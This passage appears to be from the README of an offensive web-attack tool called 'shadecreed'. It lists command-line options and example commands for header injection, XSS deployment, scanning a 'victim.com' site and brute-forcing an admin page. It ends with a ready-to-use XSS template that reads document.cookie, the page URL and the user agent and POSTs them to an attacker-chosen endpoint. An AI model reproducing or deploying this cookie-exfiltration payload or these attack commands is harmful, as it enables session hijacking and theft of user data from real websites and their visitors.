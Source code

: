 **Options:**
- `-h`, `--help`  Show help message and exit
- `-u`, `--url`  Target URL
- `-r`, `--redirect` [true] - if you intend to allow redirects otherwise, do not provide this flag. 
---

## 📂 Example Commands

**Run the main framework:**
```bash
shadecreed -u https://example.com
```

**Inject custom header using POST:**
```bash
shadecreed-inject -u https://target.com/api -m POST -s headers.json/.scdb -r true
```

**Deploy custom XSS script:**
```bash
shadecreed-xss --url https://target.com/page --script payload.js --endpoint https://mycustomendpoint.com/log
```

**Test custom endpoint:**
```bash
shadecreed-test <Custom_Endpoint>
```

**Scan a site for vulnerabilities:**
```bash
shadecreed-scan --url https://victim.com
```

**Perform custom bruteforce:**
```bash
shadecreed-brute --url https://myhome/admin --redirect true
```

---

## 🕷️ Custom XSS Template
You can craft custom XSS scripts using the `{{endpoint}}` placeholder which will be replaced during deployment:

```javascript
<script>
  var data = {
    cookies: document.cookie,
    location: window.location.href,
    userAgent: navigator.userAgent
  };
  fetch("{{endpoint}}", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(data)
  });
</script>
```

